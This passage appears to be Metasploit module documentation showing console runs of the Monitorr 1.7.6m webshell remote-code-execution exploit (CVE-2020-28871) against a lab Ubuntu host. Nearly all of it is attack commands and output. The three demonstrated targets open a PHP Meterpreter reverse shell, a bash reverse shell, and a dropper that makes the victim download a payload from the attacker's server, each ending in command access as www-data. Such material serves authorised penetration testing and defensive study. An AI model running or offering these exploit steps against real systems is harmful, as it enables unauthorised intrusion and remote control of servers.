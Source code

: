 ```
lport => 4444
msf exploit(multi/http/monitorr_webshell_rce_cve_2020_28871) > set target 0
target => 0
msf exploit(multi/http/monitorr_webshell_rce_cve_2020_28871) > exploit

[*] Started reverse TCP handler on 192.168.201.10:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Monitorr version: 1.7.6m
[*] Executing PHP for php/meterpreter/reverse_tcp
[*] Sending stage (39927 bytes) to 192.168.201.34
[+] Deleted tsrezgkjwmtxyj.php
[*] Meterpreter session 1 opened (192.168.201.10:4444 -> 192.168.201.34:54680) at 2023-03-13 16:14:32 +0000

meterpreter > sysinfo
Computer    : cuckoo
OS          : Linux cuckoo 5.15.0-60-generic #66-Ubuntu SMP Fri Jan 20 14:29:49 UTC 2023 x86_64
Meterpreter : php/linux
meterpreter > getuid
Server username: www-data
meterpreter >
```

### Monitorr 1.7.6m on Ubuntu Linux 22.04 - bash reverse shell
```
msf exploit(multi/http/monitorr_webshell_rce_cve_2020_28871) > set target 1
target => 1
msf exploit(multi/http/monitorr_webshell_rce_cve_2020_28871) > exploit

[*] Started reverse TCP handler on 192.168.201.10:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Monitorr version: 1.7.6m
[*] Executing Unix Command for cmd/unix/reverse_bash
[+] Deleted jzcjawsk.php
[*] Command shell session 2 opened (192.168.201.10:4444 -> 192.168.201.34:58348) at 2023-03-13 16:16:06 +0000

uname -a
Linux cuckoo 5.15.0-60-generic #66-Ubuntu SMP Fri Jan 20 14:29:49 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Monitorr 1.7.6m on Ubuntu Linux 22.04 - Linux Dropper Meterpreter session
```
msf exploit(multi/http/monitorr_webshell_rce_cve_2020_28871) > set target 2
target => 2
msf exploit(multi/http/monitorr_webshell_rce_cve_2020_28871) > exploit

[*] Started reverse TCP handler on 192.168.201.10:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Monitorr version: 1.7.6m
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Using URL: http://192.168.201.10:1981/nAtmJo
[*] Client 192.168.201.34 (Wget/1.21.2) requested /nAtmJo
[*] Sending payload to 192.168.201.34 (Wget/1.21.2)
[*] Sending stage (3045348 bytes) to 192.168.201.34
[+] Deleted ebdzghdq.php
[*] Meterpreter session 3 opened (192.168.201.10:4444 -> 192.168.201.34:32922) at 2023-03-13 16:17:05 +0000
```